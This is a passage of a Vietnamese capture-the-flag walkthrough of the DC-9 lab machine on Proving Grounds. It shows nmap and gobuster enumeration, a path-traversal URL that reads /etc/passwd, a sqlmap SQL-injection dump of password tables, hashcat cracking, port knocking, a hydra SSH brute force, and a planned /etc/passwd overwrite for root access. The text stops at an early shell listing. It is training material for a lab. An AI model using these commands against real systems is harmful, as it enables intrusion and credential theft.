# Proving Grounds Play — DC-9 | Full Walkthrough

> **Machine:** DC-9  
> **Difficulty:** Easy (Linux)  
> **Author:** TrieuVI  
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Application Enumeration](#3-web-application-enumeration)
4. [Local File Inclusion (LFI) Discovery](#4-local-file-inclusion-lfi-discovery)
5. [SQL Injection — Database Enumeration](#5-sql-injection--database-enumeration)
6. [Port Knocking Technique](#6-port-knocking-technique)
7. [Credential Bruteforce & SSH Access](#7-credential-bruteforce--ssh-access)
8. [Privilege Escalation — /etc/passwd Overwrite](#8-privilege-escalation--etcpasswd-overwrite)
9. [Flags & Answers Summary](#9-flags--answers-summary)
10. [Attack Chain Summary](#10-attack-chain-summary)
11. [Tools Used](#11-tools-used)

---

## 1. Overview

**DC-9** là một máy Linux mức độ Easy trên Proving Grounds Play, yêu cầu kết hợp nhiều kỹ thuật tấn công: **SQL Injection** để thu thập credentials, **Port Knocking** để mở SSH port bị firewall chặn, **credential bruteforce**, và **privilege escalation** thông qua ghi đè file `/etc/passwd` với sudo NOPASSWD permission.

**Attack Path:**
```
Nmap scan → Port 22 (filtered), 80 (open)
→ Browse web application → Staff Details management system  
→ Directory enumeration (gobuster) → /manage.php endpoint
→ LFI vulnerability → /etc/passwd disclosure (user enumeration)
→ SQL Injection in search function → dump Staff & users databases
→ Extract admin hash: 856f5de590ef37314e7c3bdf6f8a66dc
→ Crack MD5: admin:transorbital1
→ Port knocking sequence leaked in error message: 7469,8475,9842
→ knock 192.168.206.209 7469 8475 9842 → SSH port opened
→ Bruteforce credentials with hydra: janitor:Ilovepeepee, joeyt:Passw0rd
→ SSH login as janitor → explore .secrets-for-putin folder
→ Found passwords-found-on-post-it-notes.txt → new password list
→ su fredf (password: B4-Tru3-001)
→ local.txt ✓
→ sudo -l → fredf can run /opt/devstuff/dist/test/test as root NOPASSWD
→ Binary copies file1 to file2 as root
→ Generate new root password hash with openssl
→ echo "root2:\$1\$new\$p7ptkEKU9lpLpWSYKHXWm/:0:0:root:/root:/bin/bash" > /tmp/root2
→ sudo /opt/devstuff/dist/test/test /tmp/root2 /etc/passwd
→ su root2 (password: 123) → root shell ✓
→ proof.txt ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.206.209` |
| Machine Name | `dc-9` |
| OS | Debian GNU/Linux 10 (buster) x86_64 |
| Open Ports | 22 (filtered → open after knock), 80 (open) |
| Application | Staff Details Management System |
| Attacker IP | `192.168.45.218` |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Quét toàn bộ port với tốc độ cao để phát hiện các dịch vụ đang chạy:

```bash
nmap -Pn -p- --min-rate 5000 192.168.206.209
```

**Kết quả:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-19 14:38 -0400
Nmap scan report for 192.168.206.209
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
```

**Phân tích:**

| Port | State | Service |
|---|---|---|
| 22/tcp | **filtered** | ssh — Port bị chặn bởi firewall |
| 80/tcp | open | http — Web server đang chạy |

> ⚠️ **Lưu ý quan trọng:** Port 22 (SSH) ở trạng thái `filtered` — không phải `closed`. Điều này có nghĩa port đang được bảo vệ bởi firewall (iptables rules). Đây là manh mối cho kỹ thuật **port knocking** ở các bước sau.

### 2.2 Service & Version Scan

Quét chi tiết version và script trên 2 port đã phát hiện:

```bash
nmap -sC -sV -A -Pn -p 22,80 192.168.206.209
```

**Kết quả:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-19 14:42 -0400
Nmap scan report for 192.168.206.209
Host is up (0.040s latency).

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:b3:38:74:32:74:0b:c5:16:dc:13:de:cb:9b:8a:c3 (RSA)
|   256 06:5c:93:87:15:54:68:6b:88:91:55:cf:f8:9a:ce:40 (ECDSA)
|_  256 e4:2c:88:da:88:63:26:8c:93:d5:f7:63:2b:a3:eb:ab (ED25519)
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   39.78 ms 192.168.45.1
2   39.76 ms 192.168.45.254
3   40.21 ms 192.168.251.1
4   40.35 ms 192.168.206.209
```

**Key findings:**

| Port | Service | Details |
|---|---|---|
| 22/tcp | SSH | OpenSSH 7.9p1 Debian 10+deb10u1 — **filtered by firewall** |
| 80/tcp | HTTP | Apache httpd 2.4.38 (Debian) |
| HTTP Title | | **Example.com - Staff Details - Welcome** |
| OS | | Debian GNU/Linux (kernel 3.2 - 4.14) |

---

## 3. Web Application Enumeration

### 3.1 Browsing the Web Application

Truy cập `http://192.168.206.209/`:



**Phát hiện:**
- Ứng dụng web **Staff Details Management System**
- Menu bar: `Home`, `Display All Records`, `Search`, `Manage`
- URL: `http://192.168.206.209/index.php`

### 3.2 Directory Enumeration với Gobuster

Sử dụng Gobuster để tìm các endpoint ẩn:

```bash
gobuster dir -u http://192.168.206.209 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 50 -x php,txt,html,zip,bak,php.bak
```



**Kết quả quan trọng:**

```
Gobuster v3.8.2
===============================================================
[+] Url:                     http://192.168.206.209
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,html,zip,bak,php
[+] Timeout:                 10s
===============================================================

/index.php            (Status: 200) [Size: 917]
/search.php           (Status: 200) [Size: 1091]
/welcome.php          (Status: 302) [Size: 0] [→ manage.php]
/results.php          (Status: 302) [Size: 1056]
/display.php          (Status: 200) [Size: 2961]
/css                  (Status: 301) [Size: 316] [→ http://192.168.206.209/css/]
/includes             (Status: 301) [Size: 321] [→ http://192.168.206.209/includes/]
/logout.php           (Status: 302) [Size: 0] [→ manage.php]
/config.php           (Status: 302) [Size: 0]
/manage.php           (Status: 200) [Size: 1210]
/session.php          (Status: 302) [Size: 0] [→ manage.php]
```

> 🔍 **Endpoints quan trọng:**
> - `/manage.php` — Page quản lý (có thể có admin panel)
> - `/search.php` — Chức năng tìm kiếm (tiềm năng SQL Injection)
> - `/session.php` — Quản lý session
> - `/config.php` — Configuration file

### 3.3 Accessing `/manage.php`

Browse đến `http://192.168.206.209/manage.php`:



**Phát hiện:**
- Message: **"You are already logged in as admin."** — Application tự động login với session admin
- Menu bar mở rộng: `Home`, `Display All Records`, `Search`, `Manage`, `Add Record`, `Log Out`
- Error message dưới cùng: **"File does not exist"**

> 💡 **Phân tích error message:**
> 
> Error "File does not exist" xuất hiện khi application cố gắng include/require một file không tồn tại. Đây là manh mối cho **Local File Inclusion (LFI)** vulnerability.

---

## 4. Local File Inclusion (LFI) Discovery

### 4.1 Testing LFI on `/manage.php`

Khi thấy error "File does not exist", ta thử thêm parameter `file` vào URL để kiểm tra LFI:

```
http://192.168.206.209/manage.php?file=../../../../../../etc/passwd
```



**Kết quả thành công!** File `/etc/passwd` được hiển thị đầy đủ, cho thấy ứng dụng vulnerable với **Local File Inclusion (LFI)**.

**Nội dung /etc/passwd (một phần):**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
maryn:x:1001:1001:Mary Moe,,,:/home/maryn:/bin/bash
julied:x:1002:1002:Julie Dooley,,,:/home/julied:/bin/bash
fredf:x:1003:1003:Fred Flintstone,,,:/home/fredf:/bin/bash
barneyr:x:1004:1004:Barney Rubble,,,:/home/barneyr:/bin/bash
tomc:x:1005:1005:Tom Cat,,,:/home/tomc:/bin/bash
jerrym:x:1006:1006:Jerry Mouse,,,:/home/jerrym:/bin/bash
wilmaf:x:1007:1007:Wilma Flintstone,,,:/home/wilmaf:/bin/bash
bettyr:x:1008:1008:Betty Rubble,,,:/home/bettyr:/bin/bash
chandlerb:x:1009:1009:Chandler Bing,,,:/home/chandlerb:/bin/bash
joeyt:x:1010:1010:Joey Tribbiani,,,:/home/joeyt:/bin/bash
rachelg:x:1011:1011:Rachel Green,,,:/home/rachelg:/bin/bash
rossg:x:1012:1012:Ross Geller,,,:/home/rossg:/bin/bash
monicag:x:1013:1013:Monica Geller,,,:/home/monicag:/bin/bash
phoebeb:x:1014:1014:Phoebe Buffay,,,:/home/phoebeb:/bin/bash
scoots:x:1015:1015:Scooter McScoots,,,:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump,,,:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison,,,:/home/janitor2:/bin/bash
```

**Danh sách users với /bin/bash shell (tiềm năng SSH login):**
- maryn, julied, **fredf**, barneyr, tomc, jerrym, wilmaf, bettyr, chandlerb, **joeyt**, rachelg, rossg, monicag, phoebeb, scoots, **janitor**, janitor2

> ⚠️ **Hạn chế của LFI:**
> 
> Mặc dù có thể đọc được `/etc/passwd`, nhưng không thể khai thác để RCE hoặc đọc `/etc/shadow` (permission denied). LFI chỉ giúp **enumerate users** — chưa đủ để initial access. Cần tìm vulnerability khác.

---

## 5. SQL Injection — Database Enumeration

### 5.1 Testing Search Function

Truy cập trang Search qua menu:


**Search form:**
- Message: "You can search using either the first or last name"
- Input field + Submit button
- Endpoint: `/search.php`

### 5.2 Capturing Request with Burp Suite

Nhập giá trị test `hehe` và bắt request:



**HTTP Request:**
```http
POST /search.php HTTP/1.1
Host: 192.168.206.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:160.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: keep-alive
Referer: http://192.168.206.209/search.php
Upgrade-Insecure-Requests: 1

search=hehe
```

Lưu request vào file `request.txt` để sử dụng với SQLMap.

### 5.3 SQLMap — Automated SQL Injection

Chạy SQLMap với request file:

```bash
sqlmap -r request.txt --batch --level=3 --risk=3 --dbms=MySQL --dump-all
```



**SQLMap phát hiện SQL Injection:**

```
[*] starting @ 13:25:38 /2026-04-19/

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.

[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

> ✅ **Vulnerability confirmed:** POST parameter `search` vulnerable với **time-based blind SQL injection**.

### 5.4 Database Enumeration Results

SQLMap tự động dump 2 databases: `Staff` và `users`.

#### **Database: `Staff`**

**Table: `Users`** (1 entry)



| UserID | Password | Username |
|---|---|---|
| 1 | 856f5de590ef37314e7c3bdf6f8a66dc | admin |

**Table: `StaffDetails`** (17 entries)

| id | email | phone | lastname | reg_date | firstname | position |
|---|---|---|---|---|---|---|
| 1 | maryn@example.com | 46478415155456 | Moe | 2019-05-01 17:32:00 | Mary | CEO |
| 2 | julied@example.com | 46457131654 | Dooley | 2019-05-01 17:32:00 | Julie | Human Resources |
| 3 | fredf@example.com | 46615323 | Flintstone | 2019-05-01 17:32:00 | Fred | **Systems Administrator** |
| 4 | barneyr@example.com | 324643564 | Rubble | 2019-05-01 17:32:00 | Barney | Help Desk |
| 5 | tomc@example.com | 8024438797 | Cat | 2019-05-01 17:32:00 | Tom | Driver |
| ... | ... | ... | ... | ... | ... | ... |

> 🎯 **User quan trọng:** `fredf` — **Systems Administrator** (quyền cao, target priority)

#### **Database: `users`**

**Table: `UserDetails`** (17 entries)


| id | lastname | password | username | firstname |
|---|---|---|---|---|
| 1 | Moe | 3kfs86sfd | maryn | Mary |
| 2 | Dooley | 468sfdsfd2 | julied | Julie |
| 3 | Flintstone | 4sfd8fsfd1 | fredf | Fred |
| 4 | Rubble | R0ck$0ff | barneyr | Barney |
| 5 | Cat | TC&TheBoyZ | tomc | Tom |
| 6 | Mouse | B@m8am | jerrym | Jerry |
| 7 | Flintstone | Pebbles | wilmaf | Wilma |
| 8 | Rubble | BamBam01 | bettyr | Betty |
| 9 | Bing | UrAG0D! | chandlerb | Chandler |
| 10 | Tribbiani | **Passw0rd** | **joeyt** | Joey |
| 11 | Green | yN72#dsd | rachelg | Rachel |
| 12 | Geller | ILoveRachel | rossg | Ross |
| 13 | Geller | 3248dsds7$ | monicag | Monica |
| 14 | Buffay | smellycats | phoebeb | Phoebe |
| 15 | McScoots | YR3BVxxxw87 | scoots | Scooter |
| 16 | Trump | **Ilovepeepee** | **janitor** | Donald |
| 17 | Morrison | Hawaii-Five-0 | janitor2 | Scott |

### 5.5 Cracking Admin Password Hash

Admin password hash từ database `Staff.Users`:

```
admin:856f5de590ef37314e7c3bdf6f8a66dc
```

**Identify hash type:**
```
MD5 hash (32 characters hex)
```

**Crack bằng online tool (CrackStation) hoặc hashcat:**

```bash
echo "856f5de590ef37314e7c3bdf6f8a66dc" > hash.txt
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Kết quả:**

```
856f5de590ef37314e7c3bdf6f8a66dc:transorbital1
```

> ✅ **Web admin credentials:**
> 
> Username: `admin`  
> Password: `transorbital1`


---

## 6. Port Knocking Technique

### 6.1 Why Port Knocking?

Port 22 (SSH) ở trạng thái **filtered**. Thử kết nối SSH sẽ bị refused:

```bash
ssh fredf@192.168.206.209
```



```
ssh: connect to host 192.168.206.209 port 22: Connection refused
```

> 💡 **Port Knocking là gì?**
> 
> Port knocking là kỹ thuật bảo mật network layer — firewall (iptables) chỉ mở port sau khi nhận được **chuỗi SYN packets** đến các port cụ thể theo đúng thứ tự được định nghĩa trước trong `/etc/knockd.conf`.
> 
> **Cách hoạt động:**
> 1. Client gửi SYN packets đến sequence ports (VD: 7469, 8475, 9842)
> 2. knockd daemon giám sát và so khớp sequence
> 3. Nếu đúng → thực thi iptables command để ACCEPT connection từ client IP
> 4. SSH port được mở cho client IP trong thời gian timeout

### 6.2 Finding Knock Sequence via Error Message

Khi reload lại `/manage.php`, error message xuất hiện ở footer leak toàn bộ **knockd.conf** configuration:


**Error message đầy đủ:**

```
File does not exist
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --
dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -
s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
```

> 🎯 **Knock configuration discovered:**
> 
> **[openSSH] — Mở SSH:**
> - Sequence: `7469, 8475, 9842`
> - Timeout: 25 seconds
> - Command: `/sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT`
> 
> **[closeSSH] — Đóng SSH:**
> - Sequence: `9842, 8475, 7469` (reverse order)
> - Command: `/sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT`

### 6.3 Performing Port Knocking

**Cài đặt knock tool (nếu chưa có):**

```bash
sudo apt install knockd
```

**Thực hiện knock sequence:**

```bash
knock 192.168.206.209 7469 8475 9842
```



**Hoặc sử dụng nmap:**

```bash
for port in 7469 8475 9842; do
  nmap -Pn --max-retries 0 -p $port 192.168.206.209 &
done
```

### 6.4 Verify SSH Port is Open

Sau khi knock, scan lại port 22:

```bash
nmap -p 22 192.168.206.209
```


**Kết quả:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-19 13:35 -0400
Nmap scan report for 192.168.206.209
Host is up (0.0405 latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

> ✅ **SSH port successfully opened!** Firewall rule đã được thêm vào iptables:
> ```bash
> iptables -I INPUT -s 192.168.45.218 -p tcp --dport 22 -j ACCEPT
> ```

---

## 7. Credential Bruteforce & SSH Access

### 7.1 Testing Database Credentials

Thử SSH với credentials từ database `users.UserDetails`:

```bash
ssh fredf@192.168.206.209
# Password: 4sfd8fsfd1
```



```
fredf@192.168.206.209's password: 
Permission denied, please try again.
fredf@192.168.206.209's password: 
Permission denied, please try again.
```

> ❌ **Database passwords không hoạt động với SSH.** Passwords trong database `users` có thể chỉ để authentication cho web application, không phải system accounts.

### 7.2 Preparing Wordlists

Tạo wordlists từ tất cả thông tin đã thu thập:

```bash
# users.txt - từ /etc/passwd và databases
cat > users.txt << 'EOF'
maryn
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
admin
EOF

# pass.txt - từ users.UserDetails table + admin cracked password
cat > pass.txt << 'EOF'
3kfs86sfd
468sfdsfd2
4sfd8fsfd1
R0ck$0ff
TC&TheBoyZ
B@m8am
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7$
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
transorbital1
EOF
```

### 7.3 Bruteforce SSH with Hydra

```bash
hydra -L users.txt -P pass.txt ssh://192.168.206.209 -t 4 -V
```









**Hydra output:**

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak

[DATA] max 4 tasks per 1 server, overall 4 tasks, 289 login tries (l:17/p:17)
[DATA] attacking ssh://192.168.206.209:22/

[22][ssh] host: 192.168.206.209  login: joeyt     password: Passw0rd
[22][ssh] host: 192.168.206.209  login: janitor   password: Ilovepeepee
```

> ✅ **Valid SSH credentials found:**
> - `joeyt:Passw0rd`
> - `janitor:Ilovepeepee`

### 7.4 SSH Login as janitor

```bash
ssh janitor@192.168.206.209
# Password: Ilovepeepee
```



```
The authenticity of host '192.168.206.209 (192.168.206.209)' can't be established.
ED25519 key fingerprint is: SHA256:QqkiAU3zirowlN9X15Vvm36vtBZAqd5pT0aMLTwGlyvo
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:50: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.206.209' (ED25519) to the list of known hosts.

janitor@dc-9:~$ ls
janitor@dc-9:~$ ls -la
total 16
drwx------ 4 janitor janitor 4096 Apr 20 03:41 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx 1 janitor janitor    9 Dec 29  2019 .bash_history → /dev/null
